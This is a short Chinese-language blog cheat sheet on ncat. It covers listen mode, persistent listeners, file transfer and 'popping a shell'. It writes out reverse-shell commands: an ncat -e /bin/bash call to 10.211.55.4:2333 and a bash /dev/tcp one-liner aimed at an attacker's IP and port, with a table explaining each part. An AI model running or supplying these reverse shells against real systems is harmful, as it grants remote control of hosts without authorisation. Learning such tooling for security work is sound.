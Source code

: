 ```yaml
---
title: "Ncat Note"
date: 2022-03-19T13:18:56+08:00
draft: false
weight: 9
categories: ["安全工具"]
tags: ["安全工具", "Ncat"]
author: ["lavaicer"]
# author: ["Me", "You"] # multiple authors
---
```


## -l

使用监听模式，监控传入的信息 本机
`ncat -l 1234`

连接远程监控端口进行监控 目标机
`ncat <本机 ip> 1234`

## -e

将传入的信息以命令执行
`ncat -e -l /bin/bash <ip> 1234`

## -k

持久监听，客户端连接断掉，服务端依然保持运行

## -v

显示指令执行过程细节

## 内网弹 shell

> -w:设置等待连线的时间秒数

## bash 弹 shell

---

```markdown
bash -i >& /dev/tcp/攻击机 ip/攻击机端口 0>&1
```

---

这条命令的作用等同于之前的 `ncat -w 10 -e /bin/bash 10.211.55.4 2333`

|           命令            |                           参数解释                           |
| :-----------------------: | :----------------------------------------------------------: |
|          bash -i          |                    产生一个 bash 交互环境                    |
|            >&             |      将联合符号前面的内容与后面结合然后一起重定向给后者      |
| /dev/tcp/10.211.55.4/2333 |    让目标主机与主机 10.211.55.4 的 2333 端口简历一个连接     |
|           0>&1            | 将标准的输入与标准输出内容相结合，然后重定向给前面的标准输出 |

## 文件传输

### 上传

收

`ncat -l 1234 > re.txt`

发

`ncat <ip> 1234 < send.txt`

### 下载

`ncat -l 1234 < send.txt`

`ncat <ip> 1234 > re.txt`
